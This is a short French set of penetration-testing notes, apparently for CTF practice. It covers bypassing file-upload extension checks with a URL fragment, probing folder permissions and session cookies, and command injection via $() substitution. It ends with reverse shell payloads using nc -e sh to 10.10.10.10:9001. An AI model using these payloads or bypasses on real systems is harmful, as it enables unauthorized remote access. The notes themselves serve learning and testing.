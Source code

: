 

Dans un url d'image ou autre du syle http://test.com/image.jpg

on peut ajouter n'importe quoi apres en rajoutant un # u genre :

http://test.com/image.jpg#.php

Cela nous renverra vers le lien en ignorant le # et ce qu'il y a derrière.
Il peut donc y avoir une faille, on peut ajouter le # et mettre  #.jpg pour faire croire au serveur s'il est mal configurer que l'extention est en .jpg. Cela peut etre utile dans un formulaire d'upload pour upload un reverse shell.
Ansi cela permet de bypass la secu si celle-ci est mal configuré.


* Penser à regarder les droits des dossiers ! --> possibilité de supprimer/remplacer des fichiers dont on à pas les droits mais qui sont dans le dossier dont on à les droits


Regarder comment sont creer les cookies --> PHPSESSID


on peut executer des commande avec :
* $ (comamand) du genre $(id) == id 

et donc on peur faire ca avec un reverse shell nc 
Explication : La syntaxe `$()` en bash est utilisée pour exécuter une commande à l'intérieur d'une autre commande, puis utiliser la sortie de cette commande dans le contexte externe. Elle est également appelée "command substitution". 

Si cela affiche bien le resultat on peut trouver un bon payload pour exploit. On peut le faire avec la commande busybox qui fait juste la commande qui est apres (`pwd` = `busybox pwd`) soit par exemple : 
* $(busybox nc 10.10.10.10 9001 -e sh)
* & & nc 10.10.10.10 9001 -e sh